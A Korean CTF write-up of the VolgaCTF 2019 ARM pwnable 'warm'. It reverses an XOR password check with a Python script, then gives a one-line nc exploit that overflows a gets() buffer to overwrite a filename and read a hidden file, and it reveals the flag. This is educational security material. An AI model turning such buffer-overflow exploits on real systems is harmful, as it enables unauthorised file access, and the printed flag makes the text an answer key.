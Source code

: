 ```yaml
---
layout: post
title: ! "[VolgaCTF 2019] warm Write-up "
excerpt_separator: <!--more-->
tags:
  - nalda
  - VolgaCTF 2019
  - Write-up
---
```


volgaCTF 2019 대회에 출제된 Pwnable인 warm문제
<!--more-->

volgaCTF 2019에서 출제된 warm이라는 문제이다!

먼저 파일을 확인해보면
```bash
nalda@nalda:~$ file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```
32bit ARM  Binary이다

먼저 IDA를 이용해 String을 확인했을 때,
```
LOAD:00000154	00000019	C	/lib/ld-linux-armhf.so.3
LOAD:0000033D	0000000A	C	libc.so.6
LOAD:00000347	00000005	C	gets
LOAD:0000034C	00000007	C	strcpy
LOAD:00000353	00000006	C	fopen
LOAD:00000359	00000005	C	puts
LOAD:0000035E	00000011	C	__stack_chk_fail
LOAD:0000036F	00000008	C	putchar
LOAD:00000377	00000006	C	abort
LOAD:0000037D	00000007	C	printf
LOAD:00000384	00000007	C	strlen
LOAD:0000038B	00000007	C	stdout
LOAD:00000392	00000007	C	fclose
LOAD:00000399	00000007	C	getenv
LOAD:000003A0	0000000F	C	__cxa_finalize
LOAD:000003AF	00000008	C	setvbuf
LOAD:000003B7	00000009	C	_IO_getc
LOAD:000003C0	00000012	C	__libc_start_main
LOAD:000003D2	00000014	C	ld-linux-armhf.so.3
LOAD:000003E6	00000012	C	__stack_chk_guard
LOAD:000003F8	0000000A	C	GLIBC_2.4
LOAD:00000402	0000001C	C	_ITM_deregisterTMCloneTable
LOAD:0000041E	0000000F	C	__gmon_start__
LOAD:0000042D	0000001A	C	_ITM_registerTMCloneTable
.rodata:00000B14	0000000A	C	FLAG_FILE
.rodata:00000B20	00000005	C	flag
.rodata:00000B28	00000017	C	Incorrect! Try again!\n
.rodata:00000B40	00000014	C	Unable to open file
.rodata:00000B54	0000001B	C	Unable to open %.*s file!\n
.rodata:00000B70	0000000E	C	Unknown error
.rodata:00000B80	0000002F	C	Hi there! I've been waiting for your password!
```

.rodata:00000B80영역에 
`Hi there! I've been waiting for your password!`라는 메시지가 있다는 사실을 알 수 있다.

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  char v3[100]; // [sp+14h] [bp+14h]
  char v4[100]; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0(&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

코드를 확인 해 보면 
1. `sub_8F0`함수를 통해 flag 파일을 읽어온다.
2. `v3`에 password를 받아온다
3. 입력받은 password는 `sub_788`함수에서 루틴을 체크한다.
4. 이를 통과하면, `v4`에 들어있는(2에서 반환된 값) file을 실행한다.
생각보다 간단한 프로그램이다 바로 `sub_788`의 내용을 확인해보자

```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 85
    || (unsigned __int8)(s[1] ^ *s) != 78
    || (unsigned __int8)(s[2] ^ s[1]) != 30
    || (unsigned __int8)(s[3] ^ s[2]) != 21
    || (unsigned __int8)(s[4] ^ s[3]) != 94
    || (unsigned __int8)(s[5] ^ s[4]) != 28
    || (unsigned __int8)(s[6] ^ s[5]) != 33
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 52
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 53
    || (unsigned __int8)(s[11] ^ s[10]) != 17
    || (unsigned __int8)(s[12] ^ s[11]) != 55
    || (unsigned __int8)(s[13] ^ s[12]) != 60
    || (unsigned __int8)(s[14] ^ s[13]) != 114
    || (unsigned __int8)(s[15] ^ s[14]) != 71 )
  {
    return 2;
  }
  return 0;
}
```

생각보다 간단한 루틴체크이다.
각 조건별로 `(s[i] ^ s[i-1])`의 값과 !=로 뒤의값과 비교한다.
이 조건을 통해 python 코드를 작성했다.

```python
key = [ 85, 78, 30, 21, 94, 28, 33, 1, 52, 7, 53, 17, 55, 60, 114, 71 ]

passChar = 35

passwd = ""

for i in key:
    passChar = i ^ passChar
    passwd += chr(passChar)

print passwd
```


![]({{ site.baseurl }}/images/nalda/warm/1.png)

결과이다!
```
v8&3mqPQebWFqM?x
```

이 값을 입력하게 되면
```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```
라는 메시지가 나온당

뭔소린가 싶어서 고민을 했는데 뭔가 더 있단다

`sub_8F0`함수에서 환경변수로 저장된 flag 파일의 내용이 `Seek file with something more sacred!
`
서버가 닫혀 다른 write-up을 본 결과, `sacred`라는 파일을 읽으면 된다고 한다!


```python
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```

Flag is
```VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} ```
